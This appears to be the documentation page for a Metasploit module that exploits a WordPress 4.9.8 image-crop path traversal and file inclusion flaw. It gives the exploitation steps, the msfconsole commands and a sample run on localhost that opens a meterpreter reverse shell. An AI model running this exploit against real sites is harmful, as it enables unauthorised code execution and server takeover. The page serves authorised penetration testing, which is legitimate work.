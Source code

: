 On WordPress versions 5.0.0 and <= 4.9.8 it is possible to gain arbitrary code execution via a core vulnerability combining a Path Traversal and a Local File Inclusion.
An attacker who gains access to an account with at least author privileges on the target can execute PHP code on the remote server.

## Exploitation Steps

1. Upload an image containing PHP code
2. Edit the `_wp_attached_file` entry from `meta_input` $_POST array to specify an arbitrary path
3. Perform the Path Traversal by using the `crop-image` Wordpress function
4. Perform the Local File Inclusion by creating a new WordPress post and set `_wp_page_template` value to the cropped image. The post will `include()` our image containing PHP code.

When visiting the post created by the attacker it is possible to obtain code execudion.

More details can be found on [RIPS Technology Blog](https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/).

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/unix/webapp/wp_crop_rce`
3. Set the `RHOST`
4. Set `USERNAME` and `PASSWORD`
4. Set `LHOST` and `LPORT`
5. Run the exploit: `run`
6. Confirm you have now a meterpreter session


## Scenarios

### Ubuntu 18.04 running WordPress 4.9.8

```
msf5 > use exploit/unix/webapp/wp_crop_rce
msf5 exploit(unix/webapp/wp_crop_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/wp_crop_rce) > set username author
username => author
msf5 exploit(unix/webapp/wp_crop_rce) > set password author
password => author
msf5 exploit(unix/webapp/wp_crop_rce) > run

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Authenticating with WordPress using author:author...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Checking crop library
[*] Uploading payload
[+] Image uploaded
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (38247 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:36568) at 2019-03-19 11:33:27 -0400

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.15.0-46-generic #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019 x86_64
Meterpreter : php/linux
```
